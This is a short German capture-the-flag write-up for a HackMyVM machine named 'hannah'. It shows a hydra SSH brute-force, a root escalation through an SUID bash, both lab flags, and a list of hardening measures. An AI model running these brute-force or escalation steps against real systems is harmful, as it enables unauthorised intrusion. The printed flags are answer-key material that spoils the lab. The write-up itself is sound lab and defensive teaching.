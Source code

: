 
## Proof of Concept (Zusammenfassung)

1.  **Initial Access (SSH Brute-Force):**
    ```bash
    hydra -l moksha -P /usr/share/wordlists/rockyou.txt ssh://hannah.hmv:22 -t 64
    ssh moksha@hannah.hmv # Passwort: hannah
    ```

2.  **Privilege Escalation (SUID Bash mit Trigger):**
    ```bash
    # Als Benutzer moksha
    moksha@hannah:~$ cd /tmp
    moksha@hannah:/tmp$ touch enlightenment
    moksha@hannah:/tmp$ /bin/bash -p
    bash-5.1# id 
    # euid=0(root)
    bash-5.1# cat /root/root.txt
    ```

---

## Flags

*   **User Flag (`/home/moksha/user.txt`):**
    ```
    HMVGGHFWP2023
    ```
*   **Root Flag (`/root/root.txt`):**
    ```
    HMVHAPPYNY2023
    ```

---

## Empfohlene Maßnahmen (Mitigation)

*   **SSH-Härtung:**
    *   Starke, einzigartige Passwörter für alle Benutzer erzwingen.
    *   Brute-Force-Schutzmechanismen wie `fail2ban` implementieren.
    *   Wo möglich, passwortbasierte Authentifizierung deaktivieren und stattdessen Schlüssel-Authentifizierung verwenden.
*   **SUID/SGID-Berechtigungen:**
    *   **Entfernen Sie umgehend das SUID-Bit von `/bin/bash`:** `chmod u-s /bin/bash`.
    *   Überprüfen Sie regelmäßig alle Dateien mit SUID/SGID-Berechtigungen (z.B. mit `find / -type f \( -perm -4000 -o -perm -2000 \) -ls`).
    *   Entfernen Sie SUID/SGID-Bits von allen Binaries, bei denen dies nicht absolut notwendig ist (Prinzip der geringsten Rechte).
*   **Webserver-Konfiguration:**
    *   Stellen Sie sicher, dass `robots.txt` keine sensiblen Pfade oder Namen preisgibt, die als Hinweis für Angreifer dienen könnten.
    *   Implementieren Sie empfohlene Sicherheitsheader (z.B. `X-Frame-Options`, `X-Content-Type-Options`).
*   **Systemhärtung:**
    *   Untersuchen Sie den Mechanismus, der `/tmp/enlightenment` als Trigger für die SUID-Bash-Ausnutzung verwendet (falls es sich um eine benutzerdefinierte Konfiguration handelt) und beheben Sie die zugrundeliegende Schwachstelle.
    *   Härten Sie das `/tmp`-Verzeichnis (z.B. mit `noexec`, `nosuid` Mount-Optionen).
    *   Implementieren Sie File Integrity Monitoring (FIM), um unerlaubte Änderungen an Systemdateien und deren Berechtigungen zu erkennen.
*   **Überwachung:**